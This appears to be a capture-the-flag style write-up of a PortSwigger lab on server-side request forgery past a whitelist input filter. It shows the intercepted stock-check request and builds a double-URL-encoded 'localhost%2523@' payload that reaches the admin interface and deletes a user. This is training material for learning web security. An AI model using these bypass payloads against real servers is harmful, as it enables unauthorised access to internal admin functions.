 # SSRF with whitelist-based input filter

Link: https://portswigger.net/web-security/ssrf/lab-ssrf-with-whitelist-filter

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos.

The developer has deployed an anti-SSRF defense you will need to bypass.

### solution

- start the lab and remember the objective is to open `/admin` and delete the user carlos
- if u try going to `/admin` endpoint, you will n't get the result as u can't access it directly u will get this message `Admin interface only available if logged in as an administrator, or if requested from loopback`
- so let's go to products and click check stock as challange describtion said
- intercept this request
```
POST /product/stock HTTP/2
Host: 0a0d0067037080968141b6080065004b.web-security-academy.net
Cookie: session=h74HgBoArcl80JrdU0IBbH5Edvr3JI69
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a0d0067037080968141b6080065004b.web-security-academy.net/product?productId=3
Content-Type: application/x-www-form-urlencoded
Content-Length: 107
Origin: https://0a0d0067037080968141b6080065004b.web-security-academy.net
Dnt: 1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D3%26storeId%3D1
```
- notice that stockApi parameter has a url as a value, so let's try to change it to `http://localhost/admin` and the send the request
- ummmmmmmmmmm it's blocked and also all the trials like `http://127.1`
- let's try this `http://localhost@stock.weliketoshop.net/`
- this gives "Internal Server Error" response.
- after appending # to localhost the url is rejected so let's try double URL encoding the # to be `%2523`
- then the stockApi parameter became `http://localhost%2523@stock.weliketoshop.net/` and the status code of the response became 200
- let's delete carlos using `http://localhost%2523@stock.weliketoshop.net/admin/delete?username=carlos`
- congratzzzzzzzzzzzzzzzzzz